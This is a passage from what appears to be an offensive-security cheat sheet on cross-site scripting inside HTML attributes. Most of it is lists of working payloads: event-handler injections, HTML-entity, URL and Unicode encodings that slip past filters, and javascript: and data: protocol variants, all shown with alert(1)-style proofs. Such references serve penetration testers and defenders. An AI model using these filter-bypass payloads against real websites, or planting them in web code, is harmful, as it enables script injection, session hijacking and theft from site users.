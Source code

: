 ### Within the attribute

Even if you **cannot escape from the attribute** \(`"` is being encoded or deleted\), depending on **which attribute** your value is being reflected in **if you control all the value or just a part** you will be able to abuse it. For **example**, if you control an event like `onclick=` you will be able to make it execute arbitrary code when it's clicked.  
Another interesting **example** is the attribute `href`, where you can use the `javascript:` protocol to execute arbitrary code: **`href="javascript:alert(1)"`**

#### **Bypass inside event using HTML encoding/URL encode**

The **HTML encoded characters** inside the value of HTML tags attributes are **decoded on runtime**. Therefore something like the following will be valid \(the payload is in bold\): `<a id="author" href="http://none" onclick="var tracker='http://foo?`**`&apos;-alert(1)-&apos;`**`';">Go Back </a>`

Note that **any kind of HTML encode is valid**:

```javascript
//HTML entities
&apos;-alert(1)-&apos;
//HTML hex without zeros
&#x27-alert(1)-&#x27
//HTML hex with zeros
&#x00027-alert(1)-&#x00027
//HTML dec without zeros
&#39-alert(1)-&#39
//HTML dec with zeros
&#00039-alert(1)-&#00039

<a href="javascript:var a='&apos;-alert(1)-&apos;'">
```

**Note that URL encode will also work:**

```python
<a href="https://example.com/lol%22onmouseover=%22prompt(1);%20img.png">Click</a>
```

#### Bypass inside event using Unicode encode

```javascript
//For some reason you can use unicode to encode "alert" but not "(1)"
<img src onerror=\u0061\u006C\u0065\u0072\u0074(1) />
<img src onerror=\u{61}\u{6C}\u{65}\u{72}\u{74}(1) />
```

### Special Protocols Within the attribute

There you can use the protocols **`javascript:`** or **`data:`** in some places to **execute arbitrary JS code**. Some will require user interaction on some won't.

```javascript
javascript:alert(1)
JavaSCript:alert(1)
javascript:%61%6c%65%72%74%28%31%29 //URL encode
javascript&colon;alert(1)
javascript&#x003A;alert(1)
javascript&#58;alert(1)
&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3aalert(1)
java        //Note the new line 
script:alert(1)

data:text/html,<script>alert(1)</script>
DaTa:text/html,<script>alert(1)</script>
data:text/html;charset=iso-8859-7,%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
data:text/html;charset=UTF-8,<script>alert(1)</script>
data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=
```